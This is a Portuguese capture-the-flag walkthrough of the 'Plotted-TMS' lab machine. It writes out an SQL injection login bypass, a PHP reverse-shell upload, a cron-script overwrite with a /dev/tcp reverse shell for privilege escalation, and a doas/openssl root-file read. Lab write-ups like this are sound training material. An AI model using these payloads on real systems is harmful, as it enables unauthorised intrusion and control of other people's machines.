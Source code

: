 # _**Plotted-TMS**_
![](plot.jpg)

## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p 0-9999 -A -T5 [ip_address]
> ```
![](scan_nmap.jpg)

Parece que temos 2 websites, um na porta 80 e outro na porta 445  
Vamos investigar  
Primeiro, scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/Web-Servers/Apache.txt
> gobuster dir --url [ip_address]:445 -w ../seclists/Discovery/Web-Content/Web-Servers/Apache.txt
> ```
![](scan_go.jpg)  

![](scan_go_445.jpg)  

Parece não haver nada  
Vamos buscar informações de outra maneira  

## _**Ganhando acesso**_
Seguindo a dica dada, '_Enumeration is key!_'  
Com outra lista para _brute_force_, vamos novamente realizar um scan com **gobuster**
> ```bash
> gobuster dir --url [ip_address] -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> gobuster dir --url [ip_address]:445 -w ../seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
> ```
![](scan_medium.jpg)

Aqui temos 3 diretórios que podem ser úteis  
Investigando cada um deles, vemos que são apenas frases para continuar nossa enumeração :)  
Já o resultado na porta **445** parece ser promissor, pois encontramos uma página e dentro, uma página de login  

![](login.jpg)

Vamos tentar um _SQL injection_ com: ```' || '1'='1';-- -```  
E temos acesso administrador  

![](admin_access.jpg)

Ao investigarmos o site, que parece ser para multas e trânsito, é perceptível que podemos alterar a imagem de fundo em _../management_  
Vamos criar um arquivo _shell.php_ para tentarmos obtermos o inverso  
> ```bash
> <?php
> // Configurações do reverso
> $ip = '[ip_address]';  // <- Substitua pelo seu IP
> $port = [port];           // <- Substitua pela porta que está ouvindo
> 
> // Tenta abrir conexão de volta
> $sock = fsockopen($ip, $port);
> $proc = proc_open('/bin/sh -i', [
>     0 => $sock,
>     1 => $sock,
>     2 => $sock
> ], $pipes);
> ?>
> ```
Clicando para fazer _upload_, temos com sucesso!  
Basta acessar ```[ip_address]:445/management``` para obter seu _shell reverso_  

![](reverse_shell.jpg)

## _**Escalando privilégios**_
Para podermos escalar privilégios, vamos buscar LinPEAS com ```curl```  
Em seguida, vamos executar  
Após algum tempo, temos um retorno interessante  

![](linpeas.jpg)

Um script, _/var/www/scripts/backup.sh_, que é executado a cada minuto pelo usuário **plot_admin**  
Verificando suas permissões, vemos que é possível alterá-lo através do usuário atual  
Vamos fazer isso para abrir uma shell no usuário **plot_admin**  

> ```bash
> rm /var/www/scripts/backup.sh
> echo "/bin/sh -i >& /dev/tcp/[ip_address]/[port] 0>&1" > /var/www/scripts/backup.sh
> ```
Aguarde um tempo com ```netcat``` ligado e temos shell como **plot_admin**  

![](plot_admin.jpg)

Vamos escalar privilégios novamente  
Ao procurar por binários interessantes, encontrei "_doas_"  
A ferramenta doas é a implementação do OpenBSD da conhecida ferramenta sudo  
Procurando em GFTOBins, temos o seguinte  

![](gftobins.jpg)

Vamos executar:
> ```bash
> doas openssl enc -in [root_file_flag]
> ```

Por fim, basta ir atrás da flag _user.txt_
